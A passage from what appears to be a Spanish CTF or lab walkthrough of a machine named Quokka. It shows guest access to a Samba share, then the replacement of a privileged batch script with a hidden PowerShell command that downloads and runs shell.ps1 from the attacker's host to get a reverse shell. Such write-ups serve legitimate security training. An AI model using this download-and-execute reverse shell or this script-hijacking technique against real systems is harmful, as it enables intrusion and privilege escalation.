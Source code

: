 ```plaintext
    │   └── Acceso_2022.txt
    ├── Backups\
    │   ├── Backup_01_2023.log
    │   ├── Backup_02_2023.log
    │   └── Backup_03_2023.log
    └── Fallos_Sistema\
        ├── Error_01.log
        └── Error_02.log
```

### Conexión a Samba

Usamos `smbclient` para conectarnos al recurso compartido `Shared`:

```bash
┌──(oscar㉿kali)-[~]
└─$ smbclient -U guest% //192.168.1.48/Shared 
smb: \> ls
```

Después de listar las carpetas, navegamos hacia el directorio `Proyectos\Quokka\Código`, donde encontramos el script `mantenimiento.bat`:

```plaintext
smb: \Proyectos\Quokka\Código\> ls
mantenimiento.bat
```

## Explotación del Script Vulnerable

### Análisis del Archivo

Al descargar y analizar el archivo `mantenimiento.bat`, encontramos comentarios sospechosos:

```plaintext
:: Pista: Este script se ejecuta con permisos elevados. Seguro que no hay nada más?
```

El archivo tiene permisos elevados, y podemos modificarlo.
### Modificación del Script

Sustituimos el contenido del archivo `mantenimiento.bat` para ejecutar una reverse shell de PowerShell:

```plaintext
@echo off

:: Reverse shell a Kali
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.36:8000/shell.ps1')"

:: Fin del script
exit
```
